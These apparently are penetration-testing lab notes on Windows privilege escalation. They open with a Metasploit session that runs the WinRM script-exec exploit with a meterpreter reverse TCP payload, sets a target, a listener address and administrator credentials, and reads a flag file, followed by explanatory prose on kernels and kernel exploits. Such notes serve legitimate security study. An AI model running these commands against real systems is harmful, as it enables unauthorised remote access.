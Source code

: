 ```bash
john@attack> msfconsole

msf5> use exploit/windows/winrm/winrm_script_exec
msf5> set payload windows/meterpreter/reverse_tcp
msf5> set rhosts 10.3.19.37
msf5> set lhost 10.10.9.3
msf5> set force_vbs true
msf5> set username administrator
msf5> set password tinkerbell
msf5> exploit

meterpreter> getuid
meterpreter> cat c:\\flag.txt
```

### Windows Kernel Exploits

#### Introduction

* Privilege escalation is the process of exploiting vulnerabilities or misconfigurations in systems to elevate privileges from one user to another, typically to a user with administrative or root access on a system.
* Privilege escalation is a vital element of the attack life cycle and is a major determinant in the overall sucess of a penetration test.
* After gaining an initial foothold on a target system you will be required to elevate your privileges in order to perform tasks and functionality that require administrative privileges.
* The importance of privilege escalation in the penetration testing process cannot be overstated or overlooked. Developing your privilege escalation skills will mark you out at a good penetration tester.

#### The kernel

* A kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system. It acts as a translation layer between hardware and software and facilitates the communication between these two layers.
* Windows NT is the kernel that comes pre-packaged with all version of Microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy. It consts of two main modes of operation that determine access to system resources and hardware :
  * User mode : programs and services running in user mode have limited access to system resources and functionality.
  * Kernel mode : kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory.

#### Exploitation

* Kernel exploits on Windows will typically target vulnerabilities in the Windows kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
* This process will differ based on the version of Windows being targeted and the kernel exploit being used.
* Privilege escalation on Windows systems will typically follow the following methodology :
  * Identifying kernel vulnerabilities
  * Downloading, compiling and transferring kernel exploits onto the target system.
